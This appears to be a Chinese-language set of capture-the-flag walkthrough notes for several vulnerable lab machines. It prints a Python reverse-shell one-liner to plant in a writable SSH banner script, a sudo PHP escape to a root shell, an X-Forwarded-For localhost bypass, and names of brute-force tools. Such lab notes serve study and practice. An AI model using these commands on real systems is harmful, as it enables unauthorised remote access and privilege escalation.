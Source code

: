 ![image-20230528103243720](https://cdn.staticaly.com/gh/Mrship12138/NotePic@main/img/202305281032873.png)

```
每次ssh登录 会加载 一个字符文件banner信息
它是由 /opt/cube/cube.sh 这里面内容加载的 该文件有读写执行权限
把 反弹shell 写在sh里面就可以

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

再次ssh登录提权

```

```
在社交网站查询泄露信息
hydra
crackmapexec 
```



## meandmygirlfrienf

```
22,80
访问80页面务必看一下源码
仅支持本地访问 要设置xff头x-forwarded-for:localhost
本机转发 访问到真正的地址

"x-forwarded-for" 是一个HTTP请求头部（HTTP header），用于识别客户端的真实IP地址，通常用于代理服务器（proxy server）或负载均衡器（load balancer）后面的服务器中。当客户端通过代理服务器或负载均衡器发送请求时，"x-forwarded-for" 头部会包含客户端的真实IP地址，以便后续的服务器能够知道请求的来源。

举个例子，假设我们有一个代理服务器，客户端通过代理服务器发送请求，代理服务器将请求转发给后端的服务器处理。在这种情况下，后端服务器只能看到代理服务器的IP地址，无法获取客户端的真实IP地址。为了解决这个问题，代理服务器可以在转发请求时，将客户端的真实IP地址添加到请求头部的 "x-forwarded-for" 字段中，后端服务器就可以从这个字段中获取客户端的真实IP地址。

需要注意的是，由于HTTP请求头部可以被伪造，因此 "x-forwarded-for" 字段中的IP地址并不一定是客户端的真实IP地址，这个字段的可靠性取决于代理服务器或负载均衡器的配置和使用情况。


sudo -l 可以运行php文件xxaaz
sudo /usr/bin/php -r "system('/bin/bash');"
```



## borkengallery

```
22 80
80:
图片 readme.md 16进制
打开html 鼠标放在图片上 左下角有跳转信息
```

![image-20230528160822002](https://cdn.staticaly.com/gh/Mrship12138/NotePic@main/img/202305281608184.png)

